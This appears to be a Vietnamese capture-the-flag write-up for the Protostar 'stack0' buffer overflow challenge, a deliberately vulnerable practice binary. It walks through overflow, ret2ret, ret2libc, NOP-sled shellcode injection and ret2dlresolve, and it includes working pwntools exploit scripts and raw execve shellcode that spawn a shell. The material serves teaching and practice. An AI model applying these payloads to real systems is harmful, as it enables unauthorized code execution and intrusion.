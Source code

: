 # Stack0

Đầu tiên ta chạy thử chương trình, chương trình yêu cầu nhập input. 

![run](run.png)

`try again?`
Vậy cùng xem thử qua hàm main.

![main](disass.png)

t thấy chương trình dùng gets để nhập input vào `[esp+0x1c]`. Sau đó so sánh `[esp+0x5c]` với 0, nếu = 0 in ra `0x8048529 (try again?)` nếu ko thì in ra `0x8048500(you have changed the 'modified' variable)`. Vì ban đầu `[esp+0x5c]` được gán giá trị = 0 nên mục đích của chall này là thay đổi giá trị cua `[esp+0x5c]` để in ra *you have changed the 'modified' variable*. Ta tính được size của `[esp+0x1c]` 0x5c - 0x1c = 64 byte. vậy cần nhập một chuỗi > 64 byte để ghi đè giá trị của `[esp+0x5c]`.

## Solution

### Buffer Overflow

`python -c 'print "a"*65 | ./stack0`

### Ret2ret

Ta có thể overflow sang EIP để jump về `0x08048419`. Mình dùng Gdb để có đc địa chỉ của ESP,EBP.

![ebp-esp](ebp-esp.png)

`padding = [ebp]-[esp+0x1c] + ebp(4byte) = 80`
payload: `python -c 'print "a"*80 + "\x19\x84\x04\x08"' | ./stack0`
![ret2ret](ret2ret.png)

## Spawn Shell

chi tiết 2 cách làm bên dưới có ở bài stack 5 và stack 6.

### return về hàm system()

thay vì để jump về `0x08048419` ta có thể return về hàm system() để spawn shell.
![shell](shell.png)

```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack0')

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = 80*b'b' #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)

p = process('./stack0')
p.sendline(payload)
p.interactive()
```

![shell2](shell2.png)

### inject code

Check qua phân vùng stack, mình thấy nó có quyền excute. Nên mình sẽ inject shellcode vào stack. Shellcode có thể tìm trên mạng, hoặc dùng shellcraft để tạo. Tạo một vùng nop byte đủ lớn, cho EIP rơi vào đâu đó giữa khoảng NOP byte.
![nopsled](nopsled.png)

```python
#!/usr/bin/python3
from pwn import *

padding = b'a'*80
eip = p32(0xffffd250+100) # esp addr + offset nop_slide

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

p = process('./stack0')
p.sendline(payload)
p.interactive()
```

![shell3](shell3.png)

### ret2dlresolve

#### Background knowledge

Dynamically-linked ELF objects import `libc` functions when they are first called using the PLT and GOT. During the relocation of a runtime symbol, RIP will jump to the PLT and attempt to resolve the symbol. During this process a "resolver" is called.

The PLT jumps to wherever the GOT points. Originally, before the GOT is updated, it points back to the instruction after the jmp in the PLT to resolve it. In order to resolve the functions, there are 3 structures that need to exist within the binary. Faking these 3 structures could enable us to trick the linker into resolving a function of our choice, and we can also pass parameters in (such as /bin/sh) once resolved.

```python
#!python3
from pwn import *

elf = context.binary = ELF('../protostar/stack0', checksec=False)
p = elf.process()
rop = ROP(elf)

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * 80)
rop.gets(dlresolve.data_addr) # gets to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)     # call .plt and dl-resolve() with the correct, calculated reloc_offset

log.info(rop.dump())

p.sendline(rop.chain())
p.sendline(dlresolve.payload)    # now the read is called and we pass all the relevant structures in

p.interactive()
```
